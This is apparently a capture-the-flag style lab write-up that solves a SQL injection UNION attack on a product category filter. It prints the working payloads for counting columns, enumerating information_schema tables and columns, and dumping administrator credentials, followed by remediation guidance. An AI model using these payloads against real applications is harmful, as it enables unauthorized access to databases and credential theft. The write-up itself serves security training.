




# SQL Injection UNION Attack: Listing Database Contents (Non-Oracle)

## Lab Overview

**Level:** PRACTITIONER  
**Status:** ✅ Solved  
**Objective:** Perform a SQL injection UNION attack to enumerate database tables and columns, extract administrator credentials from the users table, and use them to authenticate.

## Vulnerability Details

The application contains a SQL injection vulnerability in the **product category filter**. The results from the query are reflected in the application's response, allowing an attacker to use a UNION-based attack to extract data from other tables and enumerate the database structure.

**Target:** Product category filter  
**Selected Category:** Pets  
**Goal:** Extract credentials and authenticate as administrator

## Solution Steps

### Step 1: Determine the Number of Columns

Using the `ORDER BY` technique to identify how many columns are returned by the original query.

**Payload:**
```sql
category=Pets' ORDER BY 2--
```

**Result:** The query succeeds with 2 columns, confirming the original query returns exactly **2 columns**.



### Step 2: Confirm Text-Compatible Columns

Testing both columns to verify they can hold string data for the UNION SELECT.

**Payload:**
```sql
category=Pets' UNION SELECT 'abc','def'--
```

**Result:** Both columns returned text successfully, confirming the UNION attack is possible. Both columns are **text-compatible**.

### Step 3: Extract Table Names

Enumerating all tables in the database using the `information_schema.tables` view (available in MySQL, PostgreSQL, and similar databases).

**Payload:**
```sql
category=Pets' UNION SELECT table_name,null FROM information_schema.tables--
```

**Purpose:** List all database tables to locate the users table

**Result:** Found multiple tables including the target: **`users_mkiafm`**




### Step 4: Extract Column Names

Querying the `information_schema.columns` view to identify column names within the target users table.

**Payload:**
```sql
category=Pets' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name='users_mkiafm'--
```

**Purpose:** Enumerate columns inside the `users_mkiafm` table

**Found Columns:**
- `username_lugdih`
- `password_lrnrix`



### Step 5: Extract Credentials

Dumping all usernames and passwords from the identified users table.

**Payload:**
```sql
category=Pets' UNION SELECT username_lugdih,password_lrnrix FROM users_mkiafm--
```

**Result:** Successfully retrieved all user credentials including administrator credentials.



### Step 6: Authenticate

Using the extracted administrator credentials to log in and complete the lab.


## Lab Completion

✅ **Lab Status: SOLVED**

The lab is completed when:
- Successfully enumerate database tables using `information_schema`
- Identify the users table with randomized name
- Extract column names from the target table
- Dump all user credentials
- Authenticate as the administrator
- Gain unauthorized access to the application

## Key Concepts Learned

### 1. **Database Schema Enumeration**
Using information schema views to map the database structure:
- `information_schema.tables` - Lists all tables
- `information_schema.columns` - Lists all columns per table
- Allows attackers to discover target tables without prior knowledge

### 2. **Information Schema (Non-Oracle Databases)**
Available in: MySQL, PostgreSQL, MariaDB, SQL Server (with modifications)
- Provides metadata about database structure
- Can be queried directly without special permissions
- Goldmine for enumeration attacks

### 3. **Multi-Step Data Extraction**
Attack chain:
1. Determine column count
2. Verify data types
3. Enumerate tables
4. Enumerate columns
5. Extract sensitive data
6. Exploit extracted credentials

### 4. **Credential Harvesting**
- Once usernames and passwords are extracted, immediate authentication is possible
- Administrator accounts provide maximum privileges
- Leads to complete system compromise

## Attack Payloads Summary

| Step | Payload | Purpose |
|------|---------|---------|
| 1 | `' ORDER BY 2--` | Determine number of columns (result: 2) |
| 2 | `' UNION SELECT 'abc','def'--` | Verify text column compatibility |
| 3 | `' UNION SELECT table_name,null FROM information_schema.tables--` | Enumerate all tables |
| 4 | `' UNION SELECT column_name,null FROM information_schema.columns WHERE table_name='users_mkiafm'--` | Find column names in target table |
| 5 | `' UNION SELECT username_lugdih,password_lrnrix FROM users_mkiafm--` | Extract credentials |

## Extracted Data

```
Users Table: users_mkiafm
├─ username_lugdih | password_lrnrix
└─ administrator : [PASSWORD] ✓ (Used to complete lab)
```

## Security Implications

1. **Schema Enumeration** - Database structure completely exposed
2. **Credential Exposure** - All user passwords accessible
3. **Administrative Compromise** - Admin account stolen
4. **Complete System Takeover** - Attacker gains full control
5. **Confidentiality Breach** - All sensitive data compromised
6. **Data Integrity Risk** - Attacker can modify data as admin

## Database Differences: Non-Oracle vs Oracle vs SQL Server

### Non-Oracle Databases (MySQL, PostgreSQL, MariaDB)
```sql
-- List tables
SELECT table_name FROM information_schema.tables

-- List columns
SELECT column_name FROM information_schema.columns 
WHERE table_name='table_name'
```

### Oracle Databases
```sql
-- List tables
SELECT table_name FROM all_tables

-- List columns
SELECT column_name FROM all_tab_columns 
WHERE table_name='TABLE_NAME'
```

### SQL Server
```sql
-- List tables
SELECT TABLE_NAME FROM INFORMATION_SCHEMA.TABLES

-- List columns
SELECT COLUMN_NAME FROM INFORMATION_SCHEMA.COLUMNS 
WHERE TABLE_NAME='table_name'
```

## Remediation

1. **Use Parameterized Queries/Prepared Statements**
   - Separate SQL code from user input
   - Completely prevents SQL injection

2. **Input Validation & Sanitization**
   - Whitelist allowed characters
   - Reject special SQL characters
   - Validate data types

3. **Principle of Least Privilege**
   - Database accounts should have minimal necessary permissions
   - Restrict access to information_schema/system tables
   - Separate read-only accounts for application layer

4. **Error Handling**
   - Don't expose database structure in error messages
   - Log errors server-side for debugging
   - Return generic error responses to users

5. **Web Application Firewall (WAF)**
   - Detect UNION SELECT patterns
   - Block information_schema queries
   - Monitor for suspicious database queries

6. **Secure Password Storage**
   - Hash passwords with strong algorithms (bcrypt, Argon2)
   - Use salt and iterations
   - Never store plaintext passwords

7. **Disable Information Schema Access (if possible)**
   - Restrict access to system catalogs
   - Use role-based access control (RBAC)

## Impact Rating

**Severity: CRITICAL** 🔴

- **Confidentiality:** COMPLETELY COMPROMISED (full database schema and credentials exposed)
- **Integrity:** HIGH RISK (attacker can modify any data as admin)
- **Availability:** HIGH RISK (attacker can delete databases or disable services)
- **CVSS Score:** 9.9 (Critical)
- **Attack Complexity:** LOW (straightforward enumeration)
- **Privileges Required:** NONE (unauthenticated attack)
- **User Interaction:** NONE (fully automated)

## Lessons Learned

- Database schema is often protected by obscurity, not security
- Randomized table/column names provide **no security** against SQL injection
- `information_schema` should be restricted in database permissions
- SQL injection allows complete database enumeration and exploitation
- Enumeration + credential extraction = complete system compromise
- Defense-in-depth is critical: parameterized queries + input validation + proper permissions

## Remediation Checklist

- [ ] Convert all dynamic queries to parameterized statements
- [ ] Implement comprehensive input validation
- [ ] Configure database least privilege access
- [ ] Enable query logging and monitoring
- [ ] Deploy WAF rules for SQL injection patterns
- [ ] Implement secure password hashing
- [ ] Conduct code review for all database interactions
- [ ] Perform security testing on all user inputs
- [ ] Document and restrict information_schema access
- [ ] Train developers on secure coding practices
